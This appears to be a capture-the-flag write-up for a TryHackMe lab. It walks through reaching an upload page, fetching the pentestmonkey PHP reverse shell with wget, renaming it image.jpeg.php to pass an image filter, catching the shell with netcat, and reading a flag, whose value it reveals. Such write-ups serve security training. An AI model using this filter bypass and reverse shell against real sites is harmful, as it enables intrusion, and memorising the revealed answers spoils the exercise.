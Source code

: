 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Video

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

## Rooms

[Upload vulns](https://tryhackme.com/room/uploadvulns)

[Intro to Shells](https://tryhackme.com/room/introtoshells)

## Resources

[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

## Challenge

Open the site

![](../.gitbook/assets/image%20%2826%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2869%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2847%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2867%29.png)

![](../.gitbook/assets/image%20%2879%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2854%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2833%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2849%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

